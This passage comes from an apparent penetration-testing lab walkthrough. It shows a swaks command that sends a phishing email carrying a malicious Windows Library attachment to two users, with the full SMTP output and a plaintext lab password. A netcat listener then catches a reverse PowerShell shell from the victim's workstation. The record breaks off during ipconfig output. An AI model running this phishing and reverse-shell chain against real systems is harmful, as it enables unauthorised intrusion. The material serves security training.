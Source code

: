 ```bash
# Now we are ready to build the swaks command to send the emails. We'll provide daniela@beyond.com and marcus@beyond.com as recipients of the email to -t, john@beyond.com as name on the email envelope (sender) to --from, and the Windows Library file to --attach. Next, we'll enter --suppress-data to summarize information regarding the SMTP transactions. For the email subject and body, we'll provide Subject: Staging Script to --header and body.txt to --body. In addition, we'll enter the IP address of MAILSRV1 for --server. Finally, we'll add -ap to enable password authentication.
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
{% endcode %}

Waiting a few moments...

{% code overflow="wrap" %}
```powershell
listening on [any] 4444 ...
connect to [192.168.119.5] from (UNKNOWN) [192.168.50.242] 64264
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
beyond\marcus

PS C:\Windows\System32\WindowsPowerShell\v1.0> hostname
hostname
CLIENTWK1

PS C:\Windows\System32\WindowsPowerShell\v1.0> ipconfig
ipconfig

Windows IP Configuration


```